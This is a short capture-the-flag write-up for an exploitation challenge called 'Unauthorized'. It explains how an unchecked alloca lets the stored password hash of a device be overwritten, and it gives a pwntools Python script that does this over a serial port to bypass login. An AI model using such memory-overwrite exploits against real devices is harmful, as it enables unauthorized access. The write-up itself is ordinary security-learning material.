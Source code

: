 # Unauthorized, Exp, 100pts

> Let's do something simple. This media unit has a Wifi access point and looks like remote access is possible. But only if you know the right password.


Notes:

> structure at 0x3001
> sha256(password) - 0x20 bytes
> address(username) - 2 bytes
> size(username) + 1 - 2 bytes
> username

> We can overwrite it, because of unchecked `alloca`.

Final code:

```python
#!/usr/bin/python2

from pwn import *


def attack(connection):
    def send(bytes):
        for byte in bytes:
            connection.send(byte)
            connection.recvuntil(byte)

    user = "p4"
    password = "P4 8 11 |~gg~|`jjnb"

    connection.recvuntil("Initialized      \r\n")

    buffer = StringIO()
    buffer.write("{:d}:".format(0x0eac))
    buffer.write("10:")
    buffer.write(hashlib.sha256(password).digest())
    buffer.write(p16(0x3025))
    buffer.write(p16(len(user) + 1))
    buffer.write(user)
    buffer.write("\x00")
    data = buffer.getvalue()
    if "\n" in data:
        raise Exception
    send("{:s}\n".format(data))

    connection.recvuntil("Unknown user!")

    send("{:d}:{:d}:{:s}{:s}\n".format(len(user), len(password), user, password))

    connection.recvuntil("FIXME")


context.log_level = "debug"
with serialtube(port = "/dev/ttyUSB0", baudrate = 115200) as connection:
    attack(connection)
```